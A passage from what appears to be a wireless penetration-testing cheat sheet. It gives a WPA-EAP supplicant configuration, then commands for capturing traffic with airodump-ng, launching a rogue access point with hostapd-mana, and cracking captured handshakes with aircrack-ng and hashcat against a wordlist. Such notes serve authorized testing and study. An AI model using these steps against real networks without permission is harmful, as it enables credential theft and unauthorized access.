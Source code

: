 Add the network configuration details:

```bash
network={
  ssid="NetworkName"
  scan_ssid=1
  key_mgmt=WPA-EAP
  identity="Domain\\username"
  password="password"
  eap=PEAP
  phase1="peaplabel=0"
  phase2="auth=MSCHAPV2"
}
```

### Step 14: Connect to the network

Use `wpa_supplicant` to connect:

```bash
wpa_supplicant -c <config file>
```


## Rogue Access Points
Instructions for creating a rogue AP.

### Discovery
```bash
sudo airodump-ng -w capturename –output-format pcap wlan0mon
```
**Wireshark Filters:**
```bash
wlan.fc.type_subtype == 0x08 #Broadcast Frames
wlan.ssid == “apname” #AP name
```
Filters can be appended to filter for broadcast frames from a specific AP:
```bash
wlan.fc.type_subtype == 0x08 && wlan.ssid == “apname”
```
The interesting parts are in Tag: Vendor Specific: & Tag: RSN: Information

### Creating a Rogue AP
Hostapd-mana template location:
```bash
/etc/hostapd-mana/hostapd-mana.conf
```
Or you may download the hostapd-mana.config in this repository and modify to your needs.

Start hostapd-mana:
```bash
sudo hostapd-mana hostapd-mana.conf
```

### Cracking .hccapx Files
**aircrack:**
```bash
aircrack-ng name.hccapx -w /wordlist/rockyou.txt
```
If you run into errors, you may try:
```bash
aircrack-ng name.hccapx -e ESSID -w /wordlist/rockyou.txt
```
**hashcat:**
```
hashcat -m 2500 capture.hccapx /usr/share/worlists/rockyou.txt
```
